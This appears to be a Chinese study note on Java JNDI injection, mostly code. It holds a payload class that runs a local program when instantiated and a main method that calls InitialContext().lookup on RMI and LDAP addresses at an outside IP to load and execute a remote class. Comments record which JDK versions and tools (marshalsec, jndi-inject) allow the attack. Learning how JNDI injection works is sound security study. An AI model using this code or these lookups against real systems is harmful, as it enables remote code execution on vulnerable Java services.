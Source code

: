 ```java
import java.lang.Runtime;
 
public class Calc {
    public Calc() throws Exception{
        Runtime.getRuntime().exec("mstsc");
    }
}
```

**ldap总代码及总结**

```java
import javax.naming.InitialContext;
 
public class ldap {
    public static void main(String[] args) throws Exception{
 
        //1.jndi - rmi ldap服务
        //2.rmi ldap 都可以进行远程调用对象 可以远程执行java代码class文件
        //3.攻击利用中就用到了jndi-inject项目和marshalsec
        //3.1发现 jdk高版本会影响rmi和ldap的利用（marshalsec针对ldap有高版本绕过方法）
        //4.1 利用要知道其他类也能调用jndi注入（rmi,ldap）
 
        //创建一个rmi ldap等服务调用 实例化对象
        //new InitialContext().lookup("rmi://47.94.236.117:1099/Test");
        //调用rmi ldap等服务对象类（远程服务）
        //ldap://47.94.236.117:1389/nx5qkh =  远程地址的一个class文件被执行
        //ini.lookup("ldap://47.94.236.117:1389/nx5qkh");
 
        //new InitialContext().lookup("ldap://localhost:1389/Calc");
        //new InitialContext().lookup("ldap://47.94.236.117:1389/Test");
 
        //RMI marshalsec工具
        //JDK 17版本 无法调用
        //11版本无法调用
        // 8u362 无法执行
        // 8U112 可以
 
        //RMI jndi-inject工具
        //JDK 17版本 无法调用
        //11版本无法调用
        // 8u362 无法执行
        // 8U112 可以
        //new InitialContext().lookup("rmi://47.94.236.117:1099/Test");
 
        //LDAP  - marshalsec工具
        //JDK 17
        // 11版本
        // 8u362
        // 8U112 都可以
 
        //LDAP  - jndi-inject工具
        //JDK 17版本 无法调用
        //11版本无法调用
        // 8u362 无法执行
        // 8U112 可以
        new InitialContext().lookup("ldap://47.94.236.117:1389/awvmkm");
        
    }
}
```
